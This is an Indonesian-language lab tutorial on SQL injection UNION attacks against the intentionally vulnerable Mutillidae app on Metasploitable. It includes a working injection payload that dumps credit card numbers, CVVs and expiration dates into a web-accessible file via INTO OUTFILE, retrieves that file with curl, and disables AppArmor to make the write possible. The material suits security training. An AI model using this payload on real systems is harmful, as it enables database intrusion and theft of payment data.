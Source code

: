 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```

### \# SQL Injection

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Masukkan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **CCN2.txt**

* **Step 5** : Melihat hasil operasi dengan web browser `http://10.151.36.64/mutillidae/CCN2.txt`

* **Step 5** : Melihat hasil operasi dengan curl 
`curl --location "http://10.151.36.64/mutillidae/CCN2.txt"`
